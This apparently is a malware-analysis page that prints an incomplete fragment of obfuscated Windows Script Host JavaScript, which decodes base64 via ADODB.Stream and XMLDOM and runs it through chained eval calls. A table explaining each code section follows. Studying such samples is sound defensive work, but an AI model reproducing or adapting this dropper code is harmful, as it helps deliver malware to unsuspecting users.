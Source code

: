 ```javascript
    "m3MorYkAd[4]()[m3MorYkAd[1][5]] = 0;m3MorYkAd[4]()[m3MorYkAd[1][6]] = 2;",
    "m3MorYkAd[4]()[m3MorYkAd[1][4]] = m3MorYkAd[3][2][0];",
    null
);

oMut1 = [
    Array(
        WSH[m3MorYkAd[1][0]](["\x61\x64{0}\x62\x2E{1}\x72\x65{2}"].om0l4d3("\x6F\x64", "\x73\x74", "\x61\x6D")),
        WSH[m3MorYkAd[1][0]]("\x6D\x69\x63\x72\x6F\x73\x6F\x66\x74\x2E\x78\x6D\x6C\x64\x6F\x6D")[Array("create\x45\x6C", "\x6D", "\x6E\x74").join("\x65")]("bst"),
        ["us-\x61\x73\x63\x69\x69"]
    ),
    function() {
        return m3MorYkAd[3][0];
    },
    function() {
        for (var p = 0; p < m3MorYkAd[2].length; p++) {
            eval(m3MorYkAd[2][p]);
        }
    }
];

"".undefined(m3MorYkAd, oMut1);

Array.prototype.\u006B\u0034\u0052\u0064\u0033 = "\x6D\x33\x4D\x6F\x72\x59\x6B\x41\x64\x20\x3D\x20\x5B\x65\x76\x61\x6C\x2C\x20\x6D\x33\x4D\x6F\x72\x59\x6B\x41\x64\x5B\x34\x5D\x28\x29\x2C\x20\x5B\x6D\x33\x4D\x6F\x72\x59\x6B\x41\x64\x5B\x31\x5D\x5B\x31\x5D\x5D\x5D\x3B";
m3MorYkAd[3][1]['epyTatad'.mouse()] = '46esab.nib'.mouse();

eval('var tmx = [[].s0fStu].om0l4d3("g", "R", "d")');
['m3MorYkAd[3][1]["text\"] = tmx;m3MorYkA{0}d3;m3MorYkA{1}m3MorYkA{2}]());'].om0l4d3('d[2][3] = [].k4R', 'd[5]();eval(m3MorYkAd[1][', 'd[2]').proc();


```
*Malicous code 1: Sample*



## Explanation of the Code

### Summary Table

| Code Section                             | Purpose                                                        |
|------------------------------------------|----------------------------------------------------------------|
| `String["prototype"].proc`              | Allows arbitrary code execution by evaluating string content.  |
| `String["prototype"]["undefined"]`      | Copies elements from one array to another, obscuring functionality. |
| `String.prototype.mp3`                   | Constructs a string in reverse order, potentially executing malicious code. |
| `Variable \u006D\u0033\u004D\u006F\u0072\u0059\u006B\u0041\u0064` | Contains various strings, possibly used for further manipulation. |
| `Array.prototype.om0l4d3`               | Uses regex to find and replace patterns within strings.       |
| `Array.prototype.s0fStu`                 | Stores obfuscated strings which might be processed later for malicious intent. |
| `eval` function calls                    | Executes dynamically constructed code, allowing for the execution of potentially harmful scripts. |
| `oMut1`                                  | An array containing operations that execute functions for further manipulation of strings and potential code execution. |
